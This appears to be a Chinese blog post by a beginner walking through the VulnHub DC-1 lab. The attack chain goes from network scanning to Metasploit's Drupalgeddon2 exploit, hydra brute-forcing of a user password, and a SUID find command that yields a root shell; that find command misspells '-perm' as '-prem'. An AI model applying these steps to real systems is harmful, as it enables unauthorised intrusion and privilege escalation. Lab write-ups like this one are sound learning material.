 ```yaml
---
layout: Security
title: "DC-1"
date: 2019-9-14
description: "我的第一次渗透DC-1"
tag: kali
---
```




## 我的第一次渗透
[靶机地址](https://www.vulnhub.com/entry/dc-1-1,292/)

渗透的环境为kali ***readyGo***

---
### 获取信息
+ `arp-scan -l`

获取当前局域网内的IP
![arp-scan](../images/posts/DC-1-1/arp.png)
出现了*192.168.79.2*和*192.168.79.131* **-_-！** 怎么会有两个IP，不管了一个一个试吧

+ `nmap -A -p0-65535 192.168.79.2`
+ `nmap -A -p0-65535 192.168.79.131`

192.168.79.2这个IP搞不懂到底是哪儿的，nmap扫出来后看到只开放了dns解析服务，所以靶机不是它。192.168.79.131我来了
![nmap](../images/posts/DC-1-1/nmap.png)
看到它开放了80端口使用的cms为drupal

### 查找漏洞
使用 **Metasploit** 查找该cms的漏洞
+ `search drupal`

![search](../images/posts/DC-1-1/search.png)
选择2018-03-28这个漏洞

+ `use exploit/unix/webapp/drupal_drupalgeddon2 `
+ `show options`
+ `set rhosts 192.168.79.131`

![show](../images/posts/DC-1-1/show.png)
设置required为yes的参数，GO！！！

### 成功获取到shell

![shell](../images/posts/DC-1-1/shell.png)

+ `cat /etc/passwd`查看电脑上有哪些用户

![passwd](../images/posts/DC-1-1/passwd.png)
看到有flag4用户，直接hydra走一波~~~等待的过程总是漫长的，我讨厌爆破，但也是我目前唯一会的. . . . . .
![hydra](../images/posts/DC-1-1/hydra.png)看到密码为orange
![hint](../images/posts/DC-1-1/hint.png)
官方提示需要读取的flag在/root下，SO

### 提权
+ `find / -type f -prem -u=s 2>/dev/null`
查看有哪些命令具有suid权限

+ `find / -name flag4 -exec "/bin/sh" \;`

![root](../images/posts/DC-1-1/root.png)
#### 我的第一次靶机渗透成功
![success](../images/posts/DC-1-1/success.png)

linux命令必须得玩透！！！不然就是一脸懵逼，提权全靠别人写好的博客。。。太难了
